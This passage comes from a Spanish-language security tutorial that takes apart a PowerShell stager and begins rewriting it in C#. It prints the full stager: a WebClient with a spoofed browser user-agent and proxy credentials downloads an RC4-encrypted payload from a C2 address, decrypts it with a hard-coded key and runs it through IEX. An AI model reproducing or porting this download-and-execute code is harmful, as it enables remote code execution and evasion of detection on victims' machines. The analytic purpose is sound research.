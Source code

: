 A continuación, eliminemos la parte del IF, para simplificar, y enfoquémonos en el resto del código. También organicé un poco el código, para poder agrupar las partes que funcionan juntas y explicar cada una por separado.

```
[System.Net.ServicePointManager]::Expect100Continue=0;
 
$wc=New-Object System.Net.WebClient;
$u='Mozilla/4.0 (compatible; MSIE 6.0;Windows NT 5.1)';
$wc.Headers.Add('User-Agent',$u);
$wc.Headers.Add("Accept","image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, */*");
$wc.Headers.Add("Accept-Language","en-en");
$wc.Headers.Add("Cookie","session=pRWdj48/Lf2wTAhO2Y7BXpRHz6o=");
 
$wc.PRoxY=[System.Net.WebRequest]::DefaultWebProxy;
$wc.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials;
$Script:Proxy = $wc.Proxy;
 
$ser='http://192.168.6.119:80';
$t='/CWoNaJLBo/VTNeWw11212/';
$data=$wc.DownloadData($ser+$t);
 
$K=[System.Text.Encoding]::ASCII.GetBytes('fdcece0a22c10f83dccc8f17c95a33d4');
$iv=$data[0..3];
$data=$data[4..$data.Length];
 
$R={$D,$K=$ARGs;
$S=0..255;
0..255|%{$J=($J+$S[$_]+$K[$_%$K.COuNT])%256;
$S[$_],$S[$J]=$S[$J],$S[$_]};
$D|%{$I=($I+1)%256;
$H=($H+$S[$I])%256;
$S[$I],$S[$H]=$S[$H],$S[$I];
$_-bXOr$S[($S[$I]+$S[$H])%256]}};
 
-Join[Char[]](& $R $data ($IV+$K))|IEX
```

Ahora tenemos que convertir cada parte de este código en C#. Disfruté mucho aprendiendo algunas clases .Net mientras hacía esta investigación. Comencemos línea por línea.
 
# De PowerShell a C#
 
El **System.Net.ServicePointManager.Expect100Continue** en palabras simples, esta propiedad si es verdadera, las solicitudes del cliente que usan los métodos PUT y POST agregarán un encabezado Expect a la solicitud. Para más información, consulte el [enlace](https://msdn.microsoft.com/en-us/library/system.net.servicepointmanager.expect100continue(v=vs.110).aspx)

```
# PowerShell avoid sending Expect 100 Header 
[System.Net.ServicePointManager]::Expect100Continue=0;
 
// C# avoid sending Expect 100 Header 
System.Net.ServicePointManager.Expect100Continue = false;
```
